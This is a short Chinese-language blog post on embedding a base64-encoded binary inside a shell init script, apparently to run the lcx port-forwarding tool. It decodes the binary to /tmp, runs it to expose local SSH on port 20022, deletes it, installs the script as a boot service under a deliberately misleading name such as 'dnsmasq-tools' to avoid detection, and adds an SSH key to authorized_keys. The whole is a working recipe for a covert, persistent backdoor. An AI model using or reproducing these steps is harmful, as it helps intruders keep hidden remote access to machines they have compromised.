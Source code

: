 ```yaml
---
title: shell中嵌入二进制文件
categories:
  - Linux
  - shell
toc: false
date: 2018-06-29 16:55:01
tags:
---
```

摘要暂略。
<!-- more -->

[在shell中嵌入二进制文件](http://oenhan.com/shell-pack-bin)。  
[在shell 脚本中嵌入二进制可执行程序](http://blog.chinaunix.net/uid-15084954-id-3368201.html)。  

先写一个名为`lcx_exe.sh`的shell脚本，脚本内容如下所示：
```shell
#!/bin/sh
# chkconfig: 12345 01 99
# 启动服务的运行级别是(1,2,3,4,5)关闭服务的顺序是(01)启动服务的顺序是(99)

PROGRAM="/tmp/lcx_exe"

do_start() {
    /bin/sed "1,/^__CONTENT_BELOW__/d" "$0" | /usr/bin/base64 -d > "$PROGRAM"
    /bin/chmod 777 "${PROGRAM}"
    "${PROGRAM}" -tran 20022 127.0.0.1:22 >/dev/null 2>&1 &
    /bin/ls >/dev/null 2>&1
    /bin/rm -f "${PROGRAM}"
}

do_stop() {
    for curPid in $( /sbin/pidof $(/bin/basename "$PROGRAM") ); do kill -9 $curPid; done
}

do_restart() {
    do_stop
    do_start
}

case "$1" in
    start)
        do_start
        ;;
    stop)
        do_stop
        ;;
    restart)
        do_restart
        ;;
    *)
        do_restart
        ;;
esac

exit 0

# This line must be the last line of the file
__CONTENT_BELOW__
```
然后我们将`lcx_exe`嵌入`lcx_exe.sh`文件中：
```
base64 ./lcx_exe >> ./lcx_exe.sh
yum install bzip2
tar -cjf  lcx_exe.sh.tar.bz2  lcx_exe.sh
```
然后我们将其添加到服务中并开启该服务。
```
cp  ./lcx_exe.sh  /etc/rc.d/init.d/.
chmod +x /etc/rc.d/init.d/lcx_exe.sh
chkconfig --add lcx_exe.sh
chkconfig lcx_exe.sh on
```
一些其他命令
```
chkconfig --list lcx_exe.sh
chkconfig lcx_exe.sh off
chkconfig --del lcx_exe.sh
service lcx_exe.sh start
service lcx_exe.sh restart
service lcx_exe.sh stop
```
当然也可以直接将其添加到`/etc/rc.d/rc.local`中。因为这个文件的使用率极高（比如Samba挂载共享文件夹），别人很容易发现这个命令。而添加服务时，我们可以使用一个具有迷惑性的名字（比如`dnsmasq-tools`或`dnsmasqd`或`dnsmosq`(`dnsmasq`)等），所以还不太容易被发现。  

创建私钥：
```
mkdir ~/.ssh
chmod 700 ~/.ssh
cd ~/.ssh/
ssh-keygen -f ~/.ssh/my_rsa
cat ~/.ssh/my_rsa.pub >> ~/.ssh/authorized_keys
chmod 644 ~/.ssh/authorized_keys
```
